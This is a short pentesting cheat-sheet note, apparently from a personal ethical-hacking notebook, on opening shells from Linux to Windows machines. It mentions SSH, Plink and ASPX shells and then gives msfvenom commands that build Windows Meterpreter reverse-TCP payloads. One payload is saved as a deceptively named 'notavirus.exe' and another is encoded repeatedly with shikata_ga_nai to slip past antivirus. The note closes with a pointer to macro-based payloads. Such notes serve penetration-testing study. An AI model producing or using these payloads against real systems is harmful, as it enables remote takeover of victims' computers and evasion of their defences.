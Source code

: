 
## Linux -> Windows

Establishing a shell or reverse shell connection between Linux and Windows machines can be complex due to incompatible shells and commands. However, it's possible with the right knowledge and tools. Use SSH to connect to a remote Windows machine from a Linux machine and run commands. The Windows machine needs an SSH server installed. For reverse shell connection, use Plink to initiate a connection from Windows to Linux. Alternatively, use ASPX shell with a Windows machine as an intermediary host, but this approach requires specific Windows tools and techniques and may not be reliable.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]

msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe -o notavirus.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

<font color="Green">Other Technique ---></font>  [[Ethical Hacking/9. Exploitation Basics/Payloads-Windows-and-Linux/Windows/Macros Payloads (MS World, Excel, ...)]] (VERY GOOD)